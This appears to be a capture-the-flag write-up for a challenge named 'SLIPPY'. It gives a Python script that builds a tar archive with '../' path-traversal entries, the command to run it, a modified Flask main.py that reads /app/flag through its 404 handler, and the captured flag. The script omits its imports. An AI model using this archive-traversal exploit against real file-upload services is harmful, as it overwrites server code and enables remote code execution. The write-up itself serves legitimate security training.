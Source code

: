 

# SLIPPY

## SOLUTION

You need to create a tar bomb. Replacing one of .py files so it would give you flag. You could create tarbomb tar file with following python script 


```python
# tarbomb.py - script to create exploit tar file
DIR_LEVEL = "../"

def main(argv=sys.argv):
    if len(argv) != 5:
        sys.exit("Incorrect arguments, expected <payload> <output> <depth> <path>")
    payload, output, depth, path = argv[1:5]
        
    if not os.path.exists(payload):
        sys.exit("Invalid payload file")

    if path and path[-1] != '/':
        path += '/'

    print("%s %s %s %s" % (depth, path, payload, output))
    dt_path = "%s%s%s" % ((DIR_LEVEL*int(depth)), path, (os.path.basename(payload)))
    print(dt_path)
    with tarfile.open(output, "w:gz") as t:
        t.add(payload, dt_path)
        t.close()
    print("Created %s containing %s" % (output, dt_path))

if __name__ == '__main__':
     main()

```
Then run it with command  

```bash
python tarbomb.py main.py test3.tar.gz 3 '' 
```

And replace one of main.py endpoint so it would read flag file to you (e.g. 404 route) like this 

```python
# main.py
from flask import Flask, jsonify
from application.blueprints.routes import web, api

app = Flask(__name__)
app.config.from_object('application.config.Config')

app.register_blueprint(web, url_prefix='/')
app.register_blueprint(api, url_prefix='/api')

# Modified endpoing
@app.errorhandler(404)
def not_found(error):
    flag = ''
    with open('/app/flag', 'r') as f:
        flag = f.read()
        
    return jsonify({'flag': flag}), 404

@app.errorhandler(403)
def forbidden(error):
    return jsonify({'error': 'Not Allowed'}), 403

@app.errorhandler(400)
def bad_request(error):
    return jsonify({'error': 'Bad Request'}), 400
```

Then reaching website (e.g. http://64.227.36.32:32660/main.py ) would give you flag 

```
{
  "flag": "HTB{i_slipped_my_way_to_rce}\n"
}
```
